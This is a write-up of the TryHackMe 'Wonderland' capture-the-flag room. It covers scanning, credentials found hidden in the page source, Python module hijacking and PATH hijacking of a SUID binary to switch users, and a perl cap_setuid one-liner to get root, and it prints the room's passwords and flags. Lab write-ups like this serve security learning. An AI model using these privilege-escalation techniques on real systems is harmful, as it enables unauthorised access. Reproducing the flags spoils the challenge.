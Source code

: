 ```yaml
---
title: Wonderland
description: Wonderland box from TryHackMe! write up.
---
```


# Wonderland <a href='/assets/resources/TryHackMe!/Wonderland-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

[Link to the room](https://tryhackme.com/room/wonderland)

## Nmap scan

```
# Nmap 7.91 scan initiated Mon Mar  8 11:54:32 2021 as: nmap -sC -sV -oN nmap.txt 10.10.176.220
Nmap scan report for 10.10.176.220
Host is up (0.082s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  8 11:54:54 2021 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

## Gobuster scan

I noticed that maybe that `r` directory could end up forming a word so i started scanning:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.176.220/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/08 11:57:50 Starting gobuster
===============================================================
/img (Status: 301)
/r (Status: 301)
===============================================================
2021/03/08 11:59:29 Finished
===============================================================
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.176.220/r
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/08 12:00:12 Starting gobuster
===============================================================
/a (Status: 301)
===============================================================
2021/03/08 12:01:10 Finished
===============================================================
```

At the end, the url looks like form "rabbit": http://10.10.176.220/r/a/b/b/i/t/

## Looking around the rabbit hole

After getting into http://10.10.176.220/r/a/b/b/i/t/ and inspecting the page i found a hidden p tag with this in it:

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

Maybe ssh password (?)

## SSH access


### alice

Well looks like it is. I could get access to the machine through ssh using the above credentials yeah!

Ok in `/home/alice` directory i found `root.txt` and `walrus_and_the_carpenter.py`. That last python file can be executed as the user `rabbit`. It just print random lines of a poem.

```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The file have the next line `import random` which is a relative path so... i think we can work with that. I just wrote a little fake `random.py` file with the next content:


```
import pty

def choice(something_about_a_poem):
        pty.spawn("/bin/bash")
        exit()
```

Executing `walrus_and_the_carpenter.py` now as `sudo -l` showed, will execute our fake random module and give us access to `rabbit` user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

### rabbit

I like to run `HOME=/home/$USER` to have the right user home directory configured in the shell.

Looks like `rabbit` has access to a SUID executable: `teaParty`. It ask you for something nice but just core dump for some reason.

I decided to download the file to my machine so i just passed the file to `alice` and download it. It is not stripped so that is cool for looking inside hehe

Ok this is funny:

```
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

First the program just print the core dumped error, lmao. Second, it set the uid to 1003 (probably the `hatter` user).

I can see that the program uses the command `date` inside the `system` function with a relative PATH. Adding `/home/rabbit` to `rabbit` PATH: `PATH="$HOME:$PATH"` and creating `date` script in it with something... funny in it will do i think. (Remember to execute `chmod a+x date` to allow the system to run the script)

Lets try it, this is my `date` script:

```
#! /bin/sh

bash -p
```

And...

```
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$
```

Nice!

### hatter

I found a `passwd.txt` in `hatter` home directory. It contain `WhyIsARavenLikeAWritingDesk?` that is hatter password so we got to a "checkpoint":

`hatter:WhyIsARavenLikeAWritingDesk?`

We can now conect to hatter account directly.

Looks like the user flag is not here neither. Alice had the `root.txt` file in her directory, could be possible that we can just read `/root/user.txt` or something? In wonderland the things are a bit weird so lets try i dont know:

```
hatter@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

So.. we got the user flag, nice (Totally on porpouse) lets go for the root one.

After i while i decided to execute `linpeas` and i saw something interesting:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl can manipulate the process UID so... lets try something:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -p";'
root@wonderland:~# 
```

Jackpot! We are root, lets get that root flag with `cat /home/alice/root.txt`:

`thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
